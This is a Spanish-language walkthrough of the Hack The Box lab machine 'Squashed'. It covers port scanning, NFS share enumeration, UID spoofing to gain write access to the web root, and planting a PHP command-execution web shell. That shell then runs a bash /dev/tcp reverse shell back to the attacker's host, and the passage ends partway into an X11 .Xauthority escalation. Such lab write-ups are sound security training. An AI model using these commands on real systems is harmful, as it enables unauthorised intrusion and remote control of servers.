


# Squashed

`Squashed` es una máquina Linux de dificultad fácil que combina la identificación y el aprovechamiento de configuraciones incorrectas en recursos compartidos NFS mediante la suplantación de identidad de usuarios. Además, la máquina incorpora la enumeración de una pantalla X11 en la escalada de privilegios al hacer que el atacante tome una captura de pantalla del escritorio actual.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Squashed**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.191 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 00:09 CET
Initiating SYN Stealth Scan at 00:09
Scanning 10.10.11.191 [65535 ports]
Discovered open port 22/tcp on 10.10.11.191
Discovered open port 80/tcp on 10.10.11.191
Discovered open port 111/tcp on 10.10.11.191
Discovered open port 33955/tcp on 10.10.11.191
Discovered open port 34057/tcp on 10.10.11.191
Discovered open port 44139/tcp on 10.10.11.191
Discovered open port 2049/tcp on 10.10.11.191
Discovered open port 38665/tcp on 10.10.11.191
Completed SYN Stealth Scan at 00:09, 12.28s elapsed (65535 total ports)
Nmap scan report for 10.10.11.191
Host is up, received user-set (0.057s latency).
Scanned at 2025-02-16 00:09:29 CET for 12s
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
80/tcp    open  http    syn-ack ttl 63
111/tcp   open  rpcbind syn-ack ttl 63
2049/tcp  open  nfs     syn-ack ttl 63
33955/tcp open  unknown syn-ack ttl 63
34057/tcp open  unknown syn-ack ttl 63
38665/tcp open  unknown syn-ack ttl 63
44139/tcp open  unknown syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.41 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65541 (2.622MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.191
	[*] Open ports: 22,80,111,2049,33955,34057,38665,44139

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache` el servicio `rpcbind` habilitado

.

```bash
❯ nmap -sCV -p22,80,111,2049,33955,34057,38665,44139 10.10.11.191 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 00:10 CET
Nmap scan report for 10.10.11.191
Host is up (0.053s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34057/tcp   mountd
|   100005  1,2,3      40001/udp   mountd
|   100005  1,2,3      47047/tcp6  mountd
|   100005  1,2,3      52258/udp6  mountd
|   100021  1,3,4      33955/tcp   nlockmgr
|   100021  1,3,4      35190/udp6  nlockmgr
|   100021  1,3,4      43807/tcp6  nlockmgr
|   100021  1,3,4      52430/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
33955/tcp open  nlockmgr 1-4 (RPC #100021)
34057/tcp open  mountd   1-3 (RPC #100005)
38665/tcp open  mountd   1-3 (RPC #100005)
44139/tcp open  mountd   1-3 (RPC #100005)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   89.58 ms 10.10.16.1
2   30.74 ms 10.10.11.191

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.56 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Realizaremos una comprobación de las tecnologías que son utilizadas en el sitio web.

```bash
❯ whatweb http://10.10.11.191
http://10.10.11.191 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.191], JQuery[3.0.0], Script, Title[Built Better], X-UA-Compatible[IE=edge]
```

Accedemos a [http://10.10.11.191](http://10.10.11.191) y comprobamos la siguiente página web en la cual en una enumeración inicial no logramos obtener ningún dato relevante.

<figure><figcaption></figcaption></figure>

Realizaremos un escaneo de directorios y páginas web a través de la herramienta de `dirsearch`, pero tampoco logramos obtener ningún resultado interesante.eeeeeeeeeeeeeeeeeeeeeee

```bash
❯ dirsearch -u 'http://10.10.11.191' -t 50 -i 200 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Squashed/Squashed/reports/http_10.10.11.191/_25-02-16_00-12-11.txt

Target: http://10.10.11.191/

[00:12:11] Starting: 
[00:12:37] 200 -  778B  - /images/
[00:12:39] 200 -  572B  - /js/

Task Completed
```

## Initial Access

### NFS Enumeration

Identificamos que el puerto **111/tcp** estaba abierto, lo que indica la presencia del servicio **RPCbind**. Este servicio es clave en entornos UNIX/Linux, ya que permite a los clientes localizar otros servicios RPC, como **NFS (Network File System)**, que suele ejecutarse en puertos dinámicos.

Uno de los principales servicios que dependen de RPCbind es **NFS**, utilizado para compartir archivos y directorios entre sistemas en red. La presencia del puerto **111** abierto podría indicar un NFS accesible, lo que nos permitiría:

* Montar directorios remotos.
* Leer o modificar archivos si los permisos lo permiten.
* Escalar privilegios si el directorio compartido contiene información sensible.



Aquí ya confirmamos que el sistema tiene **NFS** habilitado porque aparece el servicio **nfs** (programa 100003) en los protocolos **TCP y UDP**, tanto en IPv4 como en IPv6.

Además, vemos el servicio **mountd** (100005), que se encarga de gestionar los puntos de montaje de NFS. Esto significa que podríamos listar los sistemas de archivos compartidos y, si los permisos lo permiten, montarlos en nuestra máquina.

```bash
❯ rpcinfo 10.10.11.191
   program version netid     address                service    owner
    100000    4    tcp6      ::.0.111               portmapper superuser
    100000    3    tcp6      ::.0.111               portmapper superuser
    100000    4    udp6      ::.0.111               portmapper superuser
    100000    3    udp6      ::.0.111               portmapper superuser
    100000    4    tcp       0.0.0.0.0.111          portmapper superuser
    100000    3    tcp       0.0.0.0.0.111          portmapper superuser
    100000    2    tcp       0.0.0.0.0.111          portmapper superuser
    100000    4    udp       0.0.0.0.0.111          portmapper superuser
    100000    3    udp       0.0.0.0.0.111          portmapper superuser
    100000    2    udp       0.0.0.0.0.111          portmapper superuser
    100000    4    local     /run/rpcbind.sock      portmapper superuser
    100000    3    local     /run/rpcbind.sock      portmapper superuser
    100005    1    udp       0.0.0.0.162.66         mountd     superuser
    100005    1    tcp       0.0.0.0.151.9          mountd     superuser
    100005    1    udp6      ::.172.180             mountd     superuser
    100005    1    tcp6      ::.153.47              mountd     superuser
    100005    2    udp       0.0.0.0.164.88         mountd     superuser
    100005    2    tcp       0.0.0.0.172.107        mountd     superuser
    100005    2    udp6      ::.164.127             mountd     superuser
    100005    2    tcp6      ::.195.185             mountd     superuser
    100005    3    udp       0.0.0.0.156.65         mountd     superuser
    100005    3    tcp       0.0.0.0.133.9          mountd     superuser
    100005    3    udp6      ::.204.34              mountd     superuser
    100005    3    tcp6      ::.183.199             mountd     superuser
    100003    3    tcp       0.0.0.0.8.1            nfs        superuser
    100003    4    tcp       0.0.0.0.8.1            nfs        superuser
    100227    3    tcp       0.0.0.0.8.1            nfs_acl    superuser
    100003    3    udp       0.0.0.0.8.1            nfs        superuser
    100227    3    udp       0.0.0.0.8.1            nfs_acl    superuser
    100003    3    tcp6      ::.8.1                 nfs        superuser
    100003    4    tcp6      ::.8.1                 nfs        superuser
    100227    3    tcp6      ::.8.1                 nfs_acl    superuser
    100003    3    udp6      ::.8.1                 nfs        superuser
    100227    3    udp6      ::.8.1                 nfs_acl    superuser
    100021    1    udp       0.0.0.0.204.206        nlockmgr   superuser
    100021    3    udp       0.0.0.0.204.206        nlockmgr   superuser
    100021    4    udp       0.0.0.0.204.206        nlockmgr   superuser
    100021    1    tcp       0.0.0.0.132.163        nlockmgr   superuser
    100021    3    tcp       0.0.0.0.132.163        nlockmgr   superuser
    100021    4    tcp       0.0.0.0.132.163        nlockmgr   superuser
    100021    1    udp6      ::.137.118             nlockmgr   superuser
    100021    3    udp6      ::.137.118             nlockmgr   superuser
    100021    4    udp6      ::.137.118             nlockmgr   superuser
    100021    1    tcp6      ::.171.31              nlockmgr   superuser
    100021    3    tcp6      ::.171.31              nlockmgr   superuser
    100021    4    tcp6      ::.171.31              nlockmgr   superuser
```

Al realizar un escaneo con `showmount`, encontramos que el sistema tiene dos directorios exportados:

* **/home/ross**, accesible desde cualquier host (**\***).
* **/var/www/html**, igualmente accesible desde cualquier host (**\***).

Esto significa que:

* **Montar directorios remotos**: Ambos directorios están disponibles para ser montados por cualquier cliente, lo que nos permitió explorar sus contenidos.
* **Leer o modificar archivos**: Dado que los directorios son accesibles sin restricciones, tuvimos la posibilidad de leer y modificar archivos si los permisos lo permitían.
* **Escalada de privilegios**: Si alguno de estos directorios contiene archivos sensibles o configuraciones incorrectas, podríamos haber escalado privilegios en el sistema.

```bash
❯ showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

Crearemos los siguientes directorios para montar los directorios NFS en ellos.

```bash
❯ sudo mkdir -p /mnt/ross /mnt/html
❯ ls -l
drwxr-xr-x root root 4.0 KB Sun Feb 16 00:14:51 2025  html
drwxr-xr-x root root 4.0 KB Sun Feb 16 00:14:51 2025  ross
```

Utilizando la información obtenida, se montaron los directorios exportados a través de NFS. El primer directorio montado fue `/home/ross`, lo que permitió acceder a varios subdirectorios, tales como "Desktop", "Documents", "Downloads", entre otros.

Posteriormente, se intentó montar el directorio `/var/www/html`, pero al intentar listar los archivos dentro del directorio, se encontraron problemas de permisos. Los siguientes errores de acceso se mostraron al intentar acceder a los archivos dentro de este directorio:

```bash
❯ sudo mount -o vers=3,nolock 10.10.11.191:/home/ross /mnt/ross
❯ ls -l /mnt/ross
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Desktop
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Documents
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰉍 Downloads
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󱍙 Music
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰉏 Pictures
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Public
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Templates
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Videos
❯ sudo mount -o vers=3,nolock 10.10.11.191:/var/www/html /mnt/html
❯ ls -l /mnt/html
lsd: /mnt/html/index.html: Permission denied (os error 13).

lsd: /mnt/html/images: Permission denied (os error 13).

lsd: /mnt/html/css: Permission denied (os error 13).

lsd: /mnt/html/js: Permission denied (os error 13).
```

Durante la exploración del directorio `/home/ross`, encontramos el archivo **Passwords.kdbx** dentro de la carpeta **Documents**. Este archivo es una base de datos de KeePass, que generalmente contiene credenciales encriptadas.

```bash
❯ pwd
/mnt/ross
❯ tree -a
.
├── .bash_history -> /dev/null
├── .cache  [error opening dir]
├── .config  [error opening dir]
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── .gnupg  [error opening dir]
├── .local  [error opening dir]
├── Music
├── Pictures
├── Public
├── Templates
├── Videos
├── .viminfo -> /dev/null
├── .Xauthority
├── .xsession-errors
└── .xsession-errors.old

13 directories, 6 files
```

Se realizaron intentos para obtener el hash de la contraseña maestra y acceder al contenido del archivo, pero no se obtuvo ningún resultado positivo. Por lo tanto, decidimos descartar este archivo por el momento.

```bash
❯ pwd
/mnt/ross/Documents
❯ ls -la
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  .
drwxr-xr-x 1001 1001 4.0 KB Sun Feb 16 00:09:04 2025  ..
.rw-rw-r-- 1001 1001 1.3 KB Wed Oct 19 14:57:43 2022  Passwords.kdbx
```

En el directorio **/home/ross**, encontramos el archivo **.Xauthority**. Este archivo, que está relacionado con las sesiones X11, podría ser útil para una posible escalada de privilegios. Aunque no se ha explorado a fondo, hay una posibilidad de que podamos aprovecharlo para acceder a la sesión de otro usuario o ejecutar comandos con privilegios más altos si conseguimos explotarlo de la manera adecuada.

```bash
❯ pwd
/mnt/ross
❯ ls -la
drwxr-xr-x 1001 1001 4.0 KB Sun Feb 16 00:09:04 2025  .
drwxr-xr-x kali kali 4.0 KB Sun Feb 16 00:25:12 2025  ..
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰃨 .cache
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  .config
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰢬 .gnupg
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  .local
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Desktop
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Documents
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰉍 Downloads
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󱍙 Music
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰉏 Pictures
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Public
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Templates
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Videos
lrwxrwxrwx root root   9 B  Thu Oct 20 15:24:01 2022  .bash_history ⇒ /dev/null
lrwxrwxrwx root root   9 B  Fri Oct 21 15:07:10 2022  .viminfo ⇒ /dev/null
.rw------- 1001 1001  57 B  Sun Feb 16 00:09:04 2025  .Xauthority
.rw------- 1001 1001 2.4 KB Sun Feb 16 00:09:05 2025  .xsession-errors
.rw------- 1001 1001 2.4 KB Tue Dec 27 16:33:41 2022 󰁯 .xsession-errors.old
```

### Abusing owners assigned to NFS shares by creating new users on the system (Get Access to Web Root)

Al intentar acceder al archivo **.Xauthority** con nuestro usuario normal de Kali, recibimos un error de permiso denegado, lo que impide visualizar su contenido en este momento.

```bash
❯ xxd .Xauthority
xxd: .Xauthority: Permission denied
```

En este caso, procedimos a crear un nuevo usuario, **gzzcoo**, y nos cambiamos a su cuenta para explorar el sistema. Al intentar ver el contenido del archivo **.Xauthority**, conseguimos visualizar datos que indican que está relacionado con el sistema de autenticación **MIT-MAGIC-COOKIE**, lo que podría ser útil para futuras pruebas, posiblemente relacionadas con la escalada de privilegios. Sin embargo, no se extrajo información relevante de inmediato.

```bash
❯ sudo useradd gzzcoo
❯ sudo su gzzcoo -c bash
gzzcoo@kali:/mnt/ross$ ls -l
total 32
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Desktop
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Documents
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Downloads
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Music
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Pictures
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Public
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Templates
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Videos
gzzcoo@kali:/mnt/ross$ xxd .Xauthority 
00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
00000020: 4f4f 4b49 452d 3100 1059 3341 81a6 39b1  OOKIE-1..Y3A..9.
00000030: c20f c710 ee86 eb84 a5                   .........
gzzcoo@kali:/mnt/ross$ 
```

Al realizar una búsqueda en el directorio **/mnt/html**, verificamos que el propietario del directorio raíz es **www-data**, y el grupo asignado tiene el identificador **2017**. Sin embargo, encontramos que el acceso a varios subdirectorios como **index.html**, **images**, **css**, y **js** está restringido debido a permisos denegados.

```bash
❯ find /mnt/html -ls
   133456      4 drwxr-xr--   5 2017     www-data     4096 feb 16 00:30 /mnt/html
find: ‘/mnt/html/index.html’: Permiso denegado
find: ‘/mnt/html/images’: Permiso denegado
find: ‘/mnt/html/css’: Permiso denegado
find: ‘/mnt/html/js’: Permiso denegado
```

Tras modificar el identificador de usuario de **gzzcoo** para que coincida con el grupo **2017**, logramos acceder al directorio **/mnt/html**. Dentro de este directorio, confirmamos que los archivos ahora están bajo el control del usuario **gzzcoo** con el grupo **www-data**. Esto incluye los subdirectorios **css**, **images**, y **js**, así como el archivo **index.html**, que tiene permisos de lectura solo para el usuario **gzzcoo** y el grupo **www-data**.

```bash
❯ sudo usermod -u 2017 gzzcoo
❯ sudo su gzzcoo -c bash
gzzcoo@kali:/mnt$ ls -l html/
total 44
drwxr-xr-x 2 gzzcoo www-data  4096 feb 16 00:30 css
drwxr-xr-x 2 gzzcoo www-data  4096 feb 16 00:30 images
-rw-r----- 1 gzzcoo www-data 32532 feb 16 00:30 index.html
drwxr-xr-x 2 gzzcoo www-data  4096 feb 16 00:30 js
```

### Creating a web shell to gain system access

Probamos escribir un archivo en el directorio **/mnt/html** con el siguiente comando. El archivo **gzzcoo.txt** se creó correctamente con permisos **rw-rw-r--** para el usuario **gzzcoo** y el grupo **gzzcoo**, lo que significa que tenemos permisos suficientes para escribir en este directorio.

```bash
gzzcoo@kali:/mnt/html$ echo 'gzzcoo was here' > gzzcoo.txt
gzzcoo@kali:/mnt/html$ ls -l gzzcoo.txt 
-rw-rw-r-- 1 gzzcoo gzzcoo 16 feb 16  2025 gzzcoo.txt
```

Verificamos que, dado que subimos el archivo **gzzcoo.txt** en **/var/www/html** y la máquina tenía una página web montada, al hacer un **curl** hacia la URL correspondiente, obtuvimos el resultado del archivo creado en la montura NFS.

El contenido del archivo **gzzcoo.txt** se mostró correctamente como **gzzcoo was here**, lo que confirma que la escritura en el directorio fue exitosa y accesible a través del servidor web.

```bash
❯ curl -s 'http://10.10.11.191/gzzcoo.txt'
gzzcoo was here
```

Probamos realizar lo mismo con un archivo **PHP** para ver si la página web lo interpretaba correctamente. Creamos el archivo **gzzcoo.php** con el siguiente contenido:

```bash
gzzcoo@kali:/mnt/html$ echo '<?php echo "gzzcoo was here";?>' > gzzcoo.php
gzzcoo@kali:/mnt/html$ ls -l gzzcoo.php 
-rw-rw-r-- 1 gzzcoo gzzcoo 32 feb 16  2025 gzzcoo.php
```

Al hacer la petición HTTP al archivo **gzzcoo.php** mediante el siguiente comando, se confirma que la página web está interpretando el archivo PHP correctamente, lo que indica que hemos logrado ejecutar código PHP en el servidor web a través de la montura NFS.

```bash
❯ curl -s 'http://10.10.11.191/gzzcoo.php'
gzzcoo was here
```

Dado que hemos verificado que podemos crear archivos en el directorio `/var/www/html` y que la página web interpreta código PHP, el siguiente paso será cargar una webshell para ganar acceso al sistema. De esta forma, podremos ejecutar comandos en el servidor y, si la configuración lo permite, escalar privilegios o ejecutar cualquier otra acción maliciosa.

```bash
gzzcoo@kali:/mnt/html$ echo '<?php system($_GET["cmd"]);?>' > gzzcoo.php
gzzcoo@kali:/mnt/html$ ls -l gzzcoo.php 
-rw-rw-r-- 1 gzzcoo gzzcoo 30 feb 16  2025 gzzcoo.php
```

Una vez que subimos la webshell y verificamos que es capaz de ejecutar comandos, realizamos una prueba con el comando `id` para comprobar los privilegios del usuario bajo el cual se está ejecutando la web. La respuesta muestra que estamos operando bajo el usuario `alex`, con un UID y GID asignados a este usuario.

```bash
❯ curl -s 'http://10.10.11.191/gzzcoo.php?cmd=id'
uid=2017(alex) gid=2017(alex) groups=2017(alex)
```

Nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Utilizamos la webshell para ejecutar un comando bash que se conectará de vuelta a nuestra máquina en el puerto 443, creando así una reverse shell.

```bash
❯ curl -s 'http://10.10.11.191/gzzcoo.php?cmd=/bin/bash%20-c%20"bash%20-i%20>%26%20/dev/tcp/10.10.16.3/443%200>%261"'
```

Después de ejecutar el comando, nuestra máquina escuchará en el puerto 443 y, al ejecutar el comando en la webshell, recibiremos una conexión inversa que nos proporcionará una shell interactiva en el sistema víctima. Logramos visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.191] 41772
bash: cannot set terminal process group (1072): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ cat /home/alex/user.txt
8e4fcac31e**********************
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
alex@squashed:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
alex@squashed:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
                              
...[snip]...

alex@squashed:/var/www/html$ export TERM=xterm
alex@squashed:/var/www/html$ export SHELL=bash
alex@squashed:/var/www/html$ stty rows 46 columns 230
```

## Privilege Escalation

### Abusing Xauthority file (Pentesting X11)

Revisamos los permisos y grupos a los que forma parte el usuario `alex`, pero no logramos obtener nada interesante.

```bash
alex@squashed:/home/alex$ id
uid=2017(alex) gid=2017(alex) groups=2017(alex)
alex@squashed:/home/alex$ sudo -l
[sudo] password for alex:
```

Volvimos a verificar la existencia del archivo **`.Xauthority`** en el directorio home del usuario **ross**, el cual sigue presente.

```bash
alex@squashed:/home/ross$ ls -la
total 68
drwxr-xr-x 14 ross ross 4096 Feb 15 23:09 .
drwxr-xr-x  4 root root 4096 Oct 21  2022 ..
-rw-------  1 ross ross   57 Feb 15 23:09 .Xauthority
```


El archivo **.Xauthority** podría ser útil para realizar una escalada de privilegios, por lo que es importante mantenerlo en consideración.




<figure><figcaption></figcaption></figure>

En este punto, verificamos la sesión activa del usuario **ross** con el comando `w`, y observamos que está conectado en **tty7**, que es el terminal asociado con la sesión gráfica. El proceso **/usr/libexec/gnome-session-binary --systemd --session=gnome** indica que está utilizando el entorno gráfico GNOME, y está ejecutándose en el **display :0**.

Este detalle es importante porque tty7 corresponde a la sesión gráfica activa, lo que nos da una pista de que podría ser posible aprovechar el **display :0** para intentar acceder a aplicaciones gráficas o incluso escalar privilegios dentro del entorno gráfico de GNOME.

```basic
alex@squashed:/home/ross$ w
 23:43:24 up 34 min,  1 user,  load average: 0.01, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               23:09   34:35   3.61s  0.04s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Al intentar revisar el entorno gráfico utilizando `xdpyinfo` y `xwininfo` en el **display :0**, encontramos que no tenemos los permisos adecuados para acceder a la información del servidor X. El error **"No protocol specified"** indica que no estamos autorizados para interactuar con el **display :0**, lo que limita nuestras opciones para obtener información sobre la sesión gráfica o intentar escalar privilegios a través de X11.

```bash
alex@squashed:/home/ross$ xdpyinfo -display :0
No protocol specified
xdpyinfo:  unable to open display ":0".
alex@squashed:/home/ross$ xwininfo -root -tree -display :0
No protocol specified
xwininfo: error: unable to open display ":0"
```

En el blog mencionado, se explica cómo el **MIT-MAGIC-COOKIE-1** utiliza una clave de 128 bits generada y almacenada en el archivo **\~/.Xauthority**. Esta clave actúa como un "cookie" que el cliente envía al servidor, y si el servidor tiene una copia de este "cookie", permite la conexión. El problema es que cualquier usuario que tenga acceso a este archivo puede hacer uso de la clave y conectarse al servidor como si fuera el usuario legítimo. Este tipo de vulnerabilidad podría ser aprovechado para escalar privilegios si logramos acceder a este archivo **\~/.Xauthority**



<figure><figcaption></figcaption></figure>

Como mencionamos antes, no tenemos permisos suficientes para visualizar el archivo **.Xauthority** con el usuario **alex**, ya que al intentar acceder a él nos da un error de "Permiso denegado".

```bash
alex@squashed:/home/ross$ cat .Xauthority 
cat: .Xauthority: Permission denied
```

